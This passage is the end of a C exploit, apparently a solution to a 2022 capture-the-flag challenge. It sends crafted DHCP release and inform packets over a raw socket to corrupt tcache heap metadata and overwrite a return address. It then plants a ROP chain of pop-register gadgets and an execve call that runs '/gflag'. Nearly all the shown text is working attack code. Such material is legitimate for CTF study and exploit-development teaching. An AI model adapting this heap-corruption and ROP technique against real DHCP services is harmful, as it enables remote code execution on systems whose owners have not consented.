    create_dhcp_release_packet(buf, &buf_len, req[0]);
    send_raw_pkt(buf, buf_len);
    printf("[*] free chunk0.\n");

    // fake 0x50 tcache next
    memset(&tmp_req, 0, sizeof(dhcp_req_t));
    tmp_req.addr_in.sin_addr.s_addr = req[2].addr_in.sin_addr.s_addr;
    tmp_req.uid_len = 0x47;

    uint64_t ret_addr = stack_addr - 0x20;
    tmp_req.uid_type = ret_addr&0xff;
    *(uint64_t *)tmp_req.uid = ret_addr>>8;
    
    for (size_t i = 0; i < 2; i++) {
        sleep(3);
        xid = random();
        memset(buf, 0, 0x1000);
        create_dhcp_inform_packet(buf, &buf_len, tmp_req);
        send_raw_pkt(buf, buf_len);
    }
    printf("[*] alloc chunk0, fake next.\n");
    // printf("Enter to continue...");
    // getchar();

    // write rop
    uint64_t prdi = elf_base + 0x0000000000019d21,
             prsi = elf_base + 0x000000000001b954,
             prdx = elf_base + 0x00000000000bc28e;
    uint64_t execve_plt = elf_base + 0x0000000000019308;
    char *cmd = "/gflag";
    uint64_t rop[0x48/8] = {
        prdi, ret_addr + 0x38,
        prsi, 0,
        prdx, 0,
        execve_plt,
        0, 0
    };
    memcpy(&rop[7], cmd, strlen(cmd));

    memset(tmp_req.uid, 0, sizeof(tmp_req.uid));
    tmp_req.uid_type = *(uint8_t *)rop;
    memcpy(tmp_req.uid, (uint8_t *)rop + 1, 0x47);
    sleep(3);
    xid = random();
    memset(buf, 0, 0x1000);
    create_dhcp_inform_packet(buf, &buf_len, tmp_req);
    send_raw_pkt(buf, buf_len);

    free(buf);
}

int main(int argc, char *argv[]) {
    if (argc != 2)
    {
        printf("Usage: sudo %s <iface>\n", argv[0]);
        return 0;
    }
    init(argv[1]);

    leak();
    exploit();

    close(sock);
    return 0;
}
// gcc -static -o exp ./AntCTFxD3CTF2022-real_vmpwn.exp.c
```